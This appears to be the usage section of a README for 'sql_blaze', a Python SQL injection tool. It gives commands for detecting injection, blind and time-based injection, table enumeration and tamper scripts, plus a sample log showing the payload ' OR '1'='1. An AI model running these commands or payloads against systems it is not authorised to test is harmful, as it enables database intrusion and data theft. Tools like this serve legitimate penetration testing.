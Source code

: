 ### Basic Commands
Detect SQL injection:
```bash
python3 sql_blaze.py -a detect -u "http://example.com?id=1"
```

Perform blind SQL injection:
```bash
python3 sql_blaze.py -a blind -u "http://example.com?id=1" -o output_dir
```

Perform time-based SQL injection:
```bash
python3 sql_blaze.py -a time-based -u "http://example.com?id=1" -o output_dir
```

Enumerate database tables:
```bash
python3 sql_blaze.py -a enumerate -u "http://example.com?id=1" -o output_dir
```

Use tamper script and proxy:
```bash
python3 sql_blaze.py -a detect -u "http://example.com?id=1" -t randomcase -p "http://localhost:8080"
```

Run in quiet mode:
```bash
python3 sql_blaze.py -a detect -u "http://example.com?id=1" -q
```

### Options
- `-a, --action`: Action to perform (detect, blind, time-based, enumerate; required).
- `-u, --url`: Target URL with injectable parameter (required).
- `-m, --method`: HTTP method (GET, POST; default: GET).
- `-d, --data`: POST data (e.g., 'id=1&name=test' or JSON).
- `-c, --cookies`: Path to Netscape cookie file.
- `-p, --proxy`: Proxy URL (e.g., http://localhost:8080).
- `-o, --output`: Output directory (default: sql_blaze-output).
- `-t, --tamper`: Tamper script (randomcase, space2comment).
- `-q, --quiet`: Log to file only.

### Features

#### Detection
- **Purpose**: Identify SQL injection vulnerabilities using error-based payloads.
- **Usage**:
  ```bash
  python3 sql_blaze.py -a detect -u "http://example.com?id=1"
  ```
- **Output**:
  ```
  2025-05-15 17:29:00 - INFO - SQL injection detected with payload: ' OR '1'='1
  ```
- **JSON File** (`output_dir/logs/sql_blaze_20250515_172900.json`):
  ```json
  {
    "url": "http://example.com?id=1",
    "output_dir": "output_dir",
    "actions": [
      {
        "url": "http://example.com?id=1",
        "action": "Detect Injection",
        "status": "SQL injection detected with payload: ' OR '1'='1",
        "output_path": "",
        "timestamp": "2025-05-15 17:29:00"
      }
  ```